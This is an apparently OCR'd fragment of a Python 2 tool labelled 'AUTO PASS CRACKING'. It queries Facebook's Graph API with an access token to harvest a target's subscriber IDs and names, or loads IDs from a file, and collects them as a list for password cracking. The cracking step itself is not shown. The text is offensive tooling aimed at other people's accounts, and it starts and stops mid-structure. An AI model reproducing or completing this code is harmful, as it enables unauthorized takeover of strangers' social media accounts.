     elif select == '2':
        os.system('clear')
        print logo
        print '\t     AUTO PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     AUTO PASS CRACKING'
            print '\x1b[1;37m======================================================='
            print '[+] CLONING FROM : \x1b[1;32m' + q['name']
        except KeyError:
            print '\tInvalid id link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()

        r = requests.get('https://graph.facebook.com/' + idt + '/subscribers?access_token=' + token + '&limit=999999')
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif select == '4':
        os.system('clear')
        print logo
        print '\t     AUTO PASS FILE CRACK'
        print '\x1b[1;37m======================================================='
        
        try:
            filelist = raw_input('[?] INPUT FILE NAME : \x1b[1;32m')
            for line in open(filelist, 'r').readlines():
                id.append(line.strip())
        except (KeyError, IOError):
            print '\t    \x1b[1;31mRequested file not found\x1b[1;36m'
            raw_input(' Press enter to back ')
            crack()
        

    if select == '3':
        os.system('clear')
        print logo
        print '\t     AUTO PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[1] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
